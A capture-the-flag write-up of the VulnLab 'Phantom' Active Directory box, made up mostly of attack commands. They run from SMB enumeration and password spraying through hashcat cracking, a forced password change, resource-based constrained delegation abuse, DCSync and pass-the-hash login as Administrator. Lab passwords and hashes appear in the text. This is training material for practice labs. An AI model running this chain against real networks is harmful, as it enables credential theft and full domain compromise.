

# Phantom

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Phantom** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 593,5357,389,49667,9389,464,3389,49716,49675,5985,445,88,636,49674,49664,49669 --min-rate=1000 10.10.124.53
```



Now let’s enumerate the share

```bash
nxc smb phantom.vl -u 'guest' -p '' --shares
```


Now let’s connect  to the public share

```bash
smbclient \\\\phantom.vl\\Public -U "phantom.vl\guest"
```


As we see we got a file so let’s go and donwload

```bash
get tech_support_email.eml
```


Now let’s see the file content


Notice that we got to users from the file so let’s go an decode the pdf

```bash
cat base.txt | base64 -d > welcome.pdf
```


now let’s open the pdf


> As we see we got a password
Password: Ph4nt0m@5t4rt!
> 

Now let’s enumerate the users

```bash
nxc smb phantom.vl -u 'guest' -p '' --rid-brute 10000
```


Now let’s get the valid users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```


Now let’s do a password spray

```bash
nxc smb phantom.vl -u users.txt -p 'Ph4nt0m@5t4rt!' --continue-on-success
```


> As we see we got a hit
username: ibryant
password: Ph4nt0m@5t4rt!
> 

Now let’s go and get a bloodhound

```bash
bloodhound-python -ns 10.10.124.53 -d phantom.vl -u 'ibryant' -p 'Ph4nt0m@5t4rt!' -c all --zip
```


Now let’s open and see if we have any special permissions 


and we don’t have any permissions so let’s go and enumerate the shares again

```bash
nxc smb phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --shares
```


> Notice that we got access to the department share
> 

So let’s go and connect to the department share

```bash
smbclient "\\\\phantom.vl\\Departments Share" -U "phantom.vl\ibryant"
```


Now let’s go to the IT backup folder

```bash
cd IT/Backup
```


Now let’s download the file

```bash
get IT_BACKUP_201123.hc
```


Now let’s try to decrypt the hc file

First let’s create a short wordlist

```bash
vim pass.txt
```


Now let’s create a role

```bash
$2 $0 $2 $3 $!
$2 $0 $2 $3 $@
$2 $0 $2 $3 $#
$2 $0 $2 $3 $$
$2 $0 $2 $3 $%
$2 $0 $2 $3 $^
$2 $0 $2 $3 $&
$2 $0 $2 $3 $*
$2 $0 $2 $3 $(
$2 $0 $2 $3 $)
$2 $0 $2 $3 $-
$2 $0 $2 $3 $=
$2 $0 $2 $3 $+
$2 $0 $2 $4 $!
$2 $0 $2 $4 $@
$2 $0 $2 $4 $#
$2 $0 $2 $4 $$
$2 $0 $2 $4 $%
$2 $0 $2 $4 $^
$2 $0 $2 $4 $&
$2 $0 $2 $4 $*
$2 $0 $2 $4 $(
$2 $0 $2 $4 $)
$2 $0 $2 $4 $-
$2 $0 $2 $4 $=
$2 $0 $2 $4 $+
```


Now let’s craack the hc file

```bash
hashcat -m 13721 IT_BACKUP_201123.hc pass.txt -r pass.rule
```


> Now as we see we got the password: Phantom2023!
> 

Now let’s see the new password

```bash
cat config/config.boot
```


Now let’s go and spray with the password

```bash
nxc smb phantom.vl -u users.txt -p 'gB6XTcqVP5MlP7Rc' --continue-on-success
```


> Notice that we got a new hit
username: svc_sspr
password: gB6XTcqVP5MlP7Rc
> 

Now let’s see the privilege of the user in bloodhound


> As we see we have a Force Change Password on 3 users
> 

So let’s go and change the password of the user Crose

```bash
net rpc password crose -U phantom.vl/'svc_sspr'%'gB6XTcqVP5MlP7Rc' -S 10.10.99.92
```


Now let’s go and validate the password change

```bash
nxc smb phantom.vl -u crose -p 'remo123$'
```


Now let’s see the new user permissions from bloodhound


> As we see we have a Recourse-Based Constrained Delegation on the DC
> 

Now let’s exploit the RBCD 

First let’s get a user ticket

```bash
impacket-getTGT -hashes :$(pypykatz crypto nt 'remo123$') 'phantom.vl'/'crose'
```


Now let’s get the session key

```bash
impacket-describeTicket crose.ccache | grep 'Ticket Session Key'
```


Now let’s change the nt hash of the user

```bash
python3 smbpasswd.py -newhashes :a3a18593413beb0266e62a9a2c16e693 'phantom.vl'/'crose':'remo123$'@'10.10.99.92'
```


Now let’s perform the RBCD

```bash
impacket-rbcd -delegate-from 'crose' -delegate-to 'DC$' -dc-ip 10.10.99.92 -action 'write' 'phantom.vl'/'crose' -hashes :a3a18593413beb0266e62a9a2c16e693
```


Now let’s export the ticket

```bash
export KRB5CCNAME=crose.ccache
```


Now let’s request a service ticket

```bash
impacket-getST -u2u -impersonate Administrator -spn 'ldap/dc.phantom.vl' -k -no-pass phantom.vl/'crose'
```


Now let’s export the administrator ticket

```bash
export KRB5CCNAME=Administrator@ldap_dc.phantom.vl@PHANTOM.VL.ccache
```


Let’s perform DCSync on the domain controller

```bash
impacket-secretsdump -k -no-pass dc.phantom.vl
```


Now let’s login with administrator hash using winrm

```bash
evil-winrm -i phantom.vl -u administrator -H '71fde26ba67afaedbed8b3549012d930'
```


Now let’s go and see the root flag in the administrator desktop

```bash
cd c:\users\administrator\desktop
```


Amazing we got the root flag 🥳


That’s it for the **Phantom** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

**- Remo**

**CRTE | CRTO | CRTP | eWPTX**